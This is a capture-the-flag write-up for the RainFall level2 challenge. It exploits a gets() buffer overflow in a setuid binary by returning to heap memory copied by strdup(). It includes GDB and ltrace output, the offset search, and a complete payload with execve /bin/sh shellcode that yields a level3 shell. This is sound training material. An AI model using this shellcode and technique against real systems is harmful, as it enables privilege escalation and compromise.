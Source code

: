 ```sh
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
level2@RainFall:~$ ./level2 
42
42
level2@RainFall:~$ ./level2 42
42
42
```
There is one excutable file **level2**, it works like cat, take standarе input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
...
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
...
```
```p()``` use the ```gets()``` which has vulnerability buffer overflow, but the ```p()``` function checks the **EBP** register address just after function ```gets()```. this mean that function checks ```gets()``` return value came from normal memory area or buffer memory area. \
So we have to jump the compare logic.

```sh
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff6fc
puts("")                                                          = 1
strdup("")                                                        = 0x0804a008
```
We can find ```strdup()``` function always return in the address 0x0804a008, we can put this value in EIP with buffer overflow.
```sh
level2@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a"' > /tmp/exploit1
...
(gdb) r < /tmp/exploit1
Starting program: /home/user/level2/level2 < /tmp/exploit1
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0a6ac72ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a

Program received signal SIGSEGV, Segmentation fault.
0x37636136 in ?? ()
```
```sh
$> python3 level2/Ressources/helper.py
Enter the hex value to find (e.g., 0x63613563): 0x37636136
Little Endian ASCII representation: '6ac7'
'6ac7' found at offset: 80
```
With our helper.py, we can find overflow is at offset 80. \
After that, we save some shell code for execution shell, this is the [ref](https://shell-storm.org/shellcode/files/shellcode-575.html) of the shell code. \
This shell code is 21 bytes, overflow offset is 80. \
Then:
```
21 bytes(shell code) + 59 bytes(something) + 4 bytes(return address)
```
So when ```p()``` function finish, normally it returns to main function, but we did buffer overflow, so now return address is somewhere in the heap(```strdup()```'s return address). And in the heap memory, there is our shell code to execute shell.
```sh
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab" + "\x08\xa0\x04\x08"' > /tmp/exploit1
level2@RainFall:~$ cat /tmp/exploit1 - | ./level2
j
 X�Rh//shh/bin��1�̀aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab35ab6ab7ab8a�
whoami
level3
cat /user/home/level3/.pass
(hidden)
```
level2 passed!
